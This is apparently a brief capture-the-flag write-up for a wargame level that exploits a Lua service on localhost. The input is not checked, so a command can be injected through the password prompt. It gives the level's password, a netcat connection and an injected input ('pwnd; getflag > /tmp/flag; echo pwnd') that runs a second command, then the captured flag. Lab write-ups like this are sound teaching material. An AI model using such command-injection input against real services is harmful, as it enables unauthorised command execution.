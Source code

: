 # level11

## Vulnerability: Unchecked input leading to code injection

level11's password: `feulo4b72j7edeahuete3no7c`

1. examinate existing files and permissions

```bash
ls -la
```

shows a lua script that is supposed to run on 127.0.0.1:5151, with flag11 permissions

2. try to connect to it with netcat

```bash
nc 127.0.0.1 5151
```

Asking for a password, as expected

3. inject some code to trick the script to run getflag for us

```bash
pwnd; getflag > /tmp/flag; echo pwnd
cat /tmp/flag
```

gives flag `fa6v5ateaw21peobuub8ipe6s`
